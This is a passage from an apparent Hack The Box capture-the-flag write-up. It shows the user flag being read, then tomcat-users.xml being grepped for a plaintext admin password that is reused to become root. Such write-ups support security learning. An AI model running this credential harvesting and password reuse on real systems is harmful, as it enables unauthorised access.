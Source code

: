 ```bash
drwxr-xr-x  5 tomcat tomcat 4096 Jul  2 17:53 webapps
drwxr-xr-x  3 tomcat tomcat 4096 Jul  1 12:23 work
```
`user.txt` flag
```bash
tomcat@manager:~$ cat user.txt
cat user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
tomcat@manager:~$
```

# Privilege Escalation
Let's find tomcat credential on `/opt/tomcat/conf/tomcat-users.xml`
```bash
tomcat@manager:~/conf$ cat tomcat-users.xml | grep password
cat tomcat-users.xml | grep password
  you must define such a user - the username and password are arbitrary.
  will also need to set the passwords to something appropriate.
  <user username="admin" password="BXJ^JA3y4!nE8x9q" roles="admin-gui"/>
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
```
Now, we have tomcat creds `admin:BXJ^JA3y4!nE8x9q`. Let's login as `root` using tomcat's password.
![root](/assets/images/htbbiz2021-manager/root.png)